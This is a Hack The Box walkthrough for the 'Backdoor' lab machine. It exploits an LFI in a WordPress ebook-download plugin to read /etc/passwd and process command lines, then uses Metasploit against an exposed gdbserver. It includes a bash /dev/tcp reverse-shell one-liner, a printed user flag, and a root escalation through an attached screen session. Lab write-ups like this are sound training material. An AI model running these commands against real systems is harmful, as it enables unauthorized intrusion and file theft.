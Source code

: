 ```yaml
---
title: "Backdoor from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Backdoor from HTB
`nmap`gave this:
```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp  open     waste?
```

accessing the site we see that it's running on `wordpress` you can scan plugins with `wpscan`and also can see it if it is not hidden in `/wp-content/plugins`
There you will see `ebook-download`. This means `ebook-download`is used
Access that plugin and in `readme.txt`there is version of that plugin `1.1` which is exploitable `LFI`
see what users are there
```bash
curl 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd'
/etc/passwd/etc/passwd/etc/passwd

root:x:0:0:root:/root:/bin/bash

user:x:1000:1000:user:/home/user:/bin/bash

<script>window.close()</script>
```

learn what is running on `1337 port `with `/proc/{PID}/cmdline`
```bash
for i in $(seq 0 1000); do curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/${i}/cmdline;done > pid-enum

# 20 minutes after

</script>/proc/818/cmdline/proc/818/cmdline/proc/818/cmdline/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done <script>window.close()
```
This means on `1337`port `gdb-server`is running
>exploit
>https://www.exploit-db.com/exploits/50539

we'll use `msfdb`
```bash
$ sudo msfdb run
msf6 > search gdb

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
   1    \_ target: x86                                .                .          .      .
   2    \_ target: x86_64                             .                .          .      .
   3    \_ target: ARMLE                              .                .          .      .
   4    \_ target: AARCH64                            .                .          .      .
   5  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation


Interact with a module by name or index. For example info 5, use 5 or use exploit/linux/local/ptrace_sudo_token_priv_esc

msf6 > use 0
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/gdb/gdb_server_exec) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/gdb/gdb_server_exec) > set RHOSTS 10.10.11.125
RHOSTS => 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set RPORT 1337
RPORT => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set payload payload/linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.16.6:1234
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Command shell session 1 opened (10.10.16.6:1234 -> 10.10.11.125:54886) at 2024-08-21 02:10:26 +0400

ls
user.txt

bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1' # to get reverse shell
```
***
User Flag is: 6527b58e718c5bd7587f743d81d177fd
***
```bash
$ ps -aux


root         818  0.0  0.0   2608  1632 ?        Ss   20:27   0:00 /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
root         822  0.0  0.0   2608  1604 ?        Ss   20:27   0:01 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done

```
with that we assume that `screen named root`is already running so let's simply attach to it:
```bash
screen -r root/ #tap enter twice
root@Backdoor:~#
```
![](/assets/images/Screenshot from 2024-08-21 02-27-21.png)
